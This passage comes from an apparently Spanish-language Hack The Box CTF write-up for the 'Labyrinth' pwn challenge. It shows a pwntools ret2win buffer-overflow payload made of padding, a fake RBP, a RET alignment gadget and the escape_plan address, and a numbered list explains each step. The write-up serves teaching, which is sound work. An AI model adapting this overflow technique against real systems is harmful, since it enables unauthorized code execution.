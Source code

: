 ```python
ret_gadget = p64(0x401254)  # RET de cls()
ret_addr = p64(0x401255)    # escape_plan

payload = padding + fake_rbp + ret_gadget + ret_addr
conn.sendline(payload)

conn.interactive()
```

Basicamente:

1. - Conectar al servidor
2. - Esperar a que se reciban los caracteres ">> "
3. - Enviar el primer input
4. - Esperar a que se reciban los caracteres ">> "
5. - Llenar la variable local_38 con A * 48
6. - Limpiamos el RBP (Return Base Pointer) con un RBP falso
7. - Indicamos que el RET de cls(), justo antes de la función escape_plan.
8. - Indicamos la dirección de escape_plan
9. - Formamos el payload
10. - Enviamos el payload
11. - Iniciamos la interacción - no es neceseario.

## Flag

![alt text](/assets/img/writeups/hackthebox/labyrinth-htb/image-6.png)



# Conceptos

Alinear el stack[#alinear]:
